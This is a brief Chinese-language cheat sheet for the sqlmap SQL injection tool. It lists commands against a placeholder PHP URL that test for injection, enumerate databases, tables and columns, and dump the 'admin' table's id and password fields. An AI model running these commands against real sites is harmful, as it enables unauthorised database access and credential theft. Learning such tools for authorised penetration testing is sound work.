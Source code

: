 # SQLmap
    官网：http://sqlmap.org/
    下载：https://codeload.github.com/sqlmapproject/sqlmap/legacy.tar.gz/master

## sqlmap 使用教程

    检查注入点：
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11
    
    爆所有数据库信息：
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --dbs
    
    爆当前数据库信息：
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db
    
    指定库名列出所有表
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables
    
    'vhost48330' 为指定数据库名称
    
    指定库名表名列出所有字段
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns
    'admin' 为指定表名称
    
    指定库名表名字段dump出指定字段
    sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump
    'ac,id,password' 为指定字段名称
